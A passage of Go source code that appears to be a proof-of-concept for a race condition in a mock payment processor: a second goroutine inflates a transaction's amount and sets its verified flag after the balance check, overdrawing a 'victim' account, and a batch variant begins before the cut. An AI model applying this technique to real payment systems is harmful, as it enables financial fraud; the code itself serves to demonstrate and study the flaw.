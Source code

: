 ```go
    }
    
    accounts := map[string]*Account{
        "victim_account":   account,
        "attacker_account": {ID: "attacker_account", Balance: 0},
    }
    
    // Create transaction that will be manipulated
    tx := &Transaction{
        ID:       "exploit_tx_001",
        From:     "victim_account",
        To:       "attacker_account", 
        Amount:   100.00,  // Initial amount
        Verified: false,
    }
    
    var exploitWg sync.WaitGroup
    exploitWg.Add(2)
    
    // Goroutine 1: Process transaction normally
    go func() {
        defer exploitWg.Done()
        fmt.Println("Starting transaction processing...")
        
        err := ProcessPayment(tx, accounts)
        if err != nil {
            fmt.Printf("Transaction failed: %v\n", err)
        } else {
            fmt.Printf("Transaction completed for amount: %.2f\n", tx.Amount)
        }
    }()
    
    // Goroutine 2: Exploit the race condition
    go func() {
        defer exploitWg.Done()
        // Wait for verification to start
        time.Sleep(25 * time.Millisecond)
        
        // Modify transaction amount during verification gap
        fmt.Println("EXPLOITING: Modifying transaction amount during processing...")
        tx.Amount = 5000.00  // Increase amount after balance check
        
        // Ensure verification flag is set
        tx.Verified = true
    }()
    
    exploitWg.Wait()
    
    fmt.Printf("Final balance: %.2f (should be 900.00)\n", account.Balance)
    fmt.Printf("Exploitation result: %s\n", 
        map[bool]string{true: "SUCCESS - Transferred more than balance!", 
                       false: "FAILED - Security measures held"}[account.Balance < 0])
}

// Race condition exploitation in batch processing
func BatchExploitPoC() {
    accounts := map[string]*Account{
        "target": {ID: "target", Balance: 1000.00},
    }
    
    // Create 10 identical transactions
    transactions := make([]*Transaction, 10)
    for i := 0; i < 10; i++ {
```